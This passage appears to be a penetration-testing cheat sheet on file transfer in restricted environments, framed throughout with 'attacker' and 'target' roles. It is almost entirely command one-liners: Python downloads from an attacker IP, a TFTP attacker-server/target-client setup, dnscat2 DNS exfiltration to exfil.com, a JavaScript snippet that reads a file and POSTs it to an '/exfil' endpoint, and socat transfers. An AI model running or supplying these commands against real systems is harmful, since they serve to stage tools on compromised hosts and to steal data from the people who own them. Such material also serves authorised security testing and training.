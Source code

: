 ### Python File Download
```bash
# One-liner file download with Python 2
python -c 'import urllib; urllib.urlretrieve("http://10.10.10.10:8000/file", "output_file")'

# One-liner with Python 3
python3 -c 'import urllib.request; urllib.request.urlretrieve("http://10.10.10.10:8000/file", "output_file")'
```

## Dealing with Restricted Environments

### TFTP
```bash
# Start TFTP server (on attacker)
atftpd --daemon --port 69 /tftp

# Get file (on target)
tftp -i 10.10.10.10 GET file.txt
```

### DNS Exfiltration (Using dnscat2)
```bash
# Server (on attacker with domain)
dnscat2-server domain=exfil.com

# Client (on target)
./dnscat2 --dns domain=exfil.com file.txt
```

### JavaScript Web Browsers
```javascript
// In limited shells with web browsers like elinks/lynx
// Create a simple HTML file on your server with this script
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', '/file.txt', true);
xhr.onload = function() {
    var xhr2 = new XMLHttpRequest();
    xhr2.open('POST', 'http://10.10.10.10:8000/exfil', true);
    xhr2.send(xhr.responseText);
};
xhr.send();
</script>
```

## File Transfer with Socat

```bash
# Receiver
socat TCP-LISTEN:4444,fork file:received_file,create

# Sender
socat -u file:file_to_send TCP:10.10.10.10:4444
```
